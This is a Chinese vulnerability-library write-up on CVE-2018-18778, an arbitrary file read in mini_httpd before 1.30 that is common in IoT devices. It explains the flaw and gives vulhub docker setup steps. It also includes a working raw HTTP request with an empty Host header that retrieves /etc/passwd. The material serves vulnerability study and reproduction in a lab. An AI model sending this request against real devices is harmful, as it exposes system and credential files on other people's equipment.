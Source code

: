 ```yaml
---
title: 'mini_httpd任意文件读取漏洞（CVE-2018-18778）'
date: Tue, 06 Oct 2020 07:31:19 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 前言

Mini\_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini\_httpd组件。

#### 影响版本

ACME mini\_httpd before 1.30

#### 漏洞分析

在mini\_httpd开启虚拟主机模式的情况下，用户请求http://HOST/FILE将会访问到当前目录下的HOST/FILE文件。 (void) snprintf( vfile, sizeof(vfile), "%s/%s", req\_hostname, f ); 见上述代码，分析如下： 当HOST=example.com、FILE=index.html的时候，上述语句结果为example.com/index.html，文件正常读取。 当HOST为空、FILE=etc/passwd的时候，上述语句结果为/etc/passwd。 后者被作为绝对路径，于是读取到了/etc/passwd，造成任意文件读取漏洞。 环境搭建```
cd vulhub/mini_httpd/CVE-2018-18778

docker-compose up -d

启动mini_httpd 1.29： 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/10/20200619123111737.png) 环境启动后，访问http://your-ip:8080即可看到Web页面。

#### 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/10/20200619123140386.png)![](https://www.bylibrary.cn/wp-content/uploads/2020/10/20200619123155220.png)